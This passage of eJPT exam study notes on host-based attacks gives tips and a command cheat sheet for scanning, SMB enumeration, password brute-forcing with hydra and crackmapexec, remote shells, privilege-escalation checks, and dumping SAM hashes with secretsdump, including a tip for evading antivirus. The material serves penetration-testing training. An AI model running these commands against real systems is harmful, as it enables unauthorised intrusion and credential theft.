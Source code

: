 ## Practical tips
- Respect account lockout policies. Prefer spraying small, high-probability passwords with delays over aggressive brute-force.
- Verify service reachability before brute forcing (e.g., test SSH banner or RDP availability).
- Start with anonymous/guest checks (SMB/FTP). Free access saves time and noise.
- Use -f/STOP_ON_SUCCESS to stop after the first hit to limit noise.
- With SMB/WinRM, prefer Impacket/Evil-WinRM for reliability and clear error messages.
- If AV blocks Mimikatz, use Impacket secretsdump with registry hive saves; it’s often less noisy.
- Record everything (tee to files) to avoid repeating noisy scans.
- On Windows, look for unquoted service paths and weak service binary permissions; on Linux, look for SUID binaries and sudo misconfigs first.
- Clean up artifacts in labs; delete uploaded tools/logs.

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Scan
export TARGET=10.10.10.10; nmap -Pn -sC -sV -p 22,139,445,3389,5985 $TARGET

# 2) SMB enum
smbclient -L //$TARGET -N
enum4linux -a $TARGET
smbmap -H $TARGET -u '' -p ''

# 3) Cred attacks
hydra -L users.txt -P passwords.txt ssh://$TARGET -t 4 -f
ncrack -vv -U users.txt -P passwords.txt rdp://$TARGET
crackmapexec smb $TARGET -u users.txt -p passwords.txt --continue-on-success

# 4) Remote access
ssh user@$TARGET
evil-winrm -i $TARGET -u Administrator -p 'Password123!'
impacket-psexec WORKGROUP/Administrator:'Password123!'@$TARGET

# 5) Local enum (Linux/Windows)
id; uname -a; sudo -l; find / -perm -4000 -type f 2>/dev/null
whoami /all & systeminfo & net localgroup administrators

# 6) Cred dump (Windows)
reg save HKLM\SAM C:\Windows\Temp\SAM.save
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM.save
secretsdump.py -sam SAM.save -system SYSTEM.save LOCAL
```

## Summary
- Host-based attacks focus on breaking into and escalating within a specific machine by abusing exposed services and local misconfigurations.
- The core eJPT-ready workflow is: identify services → enumerate → obtain creds (brute/spray/guess/anon) → get a shell → perform local enumeration → escalate privileges → dump credentials → pivot/lateral move → maintain access and clean up.
- Mastering a small set of reliable tools (nmap, enum4linux/smbmap/smbclient, Hydra/Ncrack, Impacket, Evil-WinRM, linpeas/winPEAS) and the associated command flags is enough to be effective in the exam context.